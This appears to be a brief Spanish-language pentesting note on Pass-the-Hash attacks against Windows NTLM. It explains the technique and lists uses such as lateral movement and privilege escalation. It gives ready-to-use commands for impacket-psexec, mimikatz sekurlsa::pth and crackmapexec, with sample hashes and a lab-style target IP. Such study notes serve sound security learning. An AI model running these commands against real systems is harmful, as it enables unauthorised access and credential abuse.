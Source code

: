 # Pass the hash

- [more info](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/over-pass-the-hash-pass-the-key)

## Español:

#### Definición
- El ataque PTH es una tecnica utilizada para comprometer cuentas en ambientes windows sin tener la necesidad de conocer las contraseñas en texto plano. En lugar de usar la contraseña se utiliza el hash de la misma para autenticarse.

## Utilización
1. Post explotación
2. Movimiento lateral: Para moverse lateralmente dentro de una red si la maquina comprometida tiene acceso a recursos compartidos.
3. Escalación de privilegios

## Funcionamiento
- Mediante NTLM.
- NTLM es un protocolo de autenticación Windows que no requiere la contraseña en texto plano para validar autenticaciones (hashes NT).
    - Obtener hash NT de un usuario (dumping de credenciales con mimikatz x ej).
    - Usar el hash para autenticarse.
    - Acceder a recursos protegidos (smb, rdp, winrm, etc).

### Impacket con psexec
`impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`
`DOMAIN/USER@TARGET -hashes LMHASH:NTHASH`

### Mimikatz
- Permite autenticar usando hashes con el modulo `sekurlsa::pth`
`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
`sekurlsa::pth /user:admin /domain:. /ntlm:0123456789abcdef0123456789abcdef /run:cmd.exe`

### Crackmapexec
`crackmapexec smb TARGET_IP -u USER -H NTHASH`
`cme smb 192.168.1.10 -u admin -H 0123456789abcdef0123456789abcdef`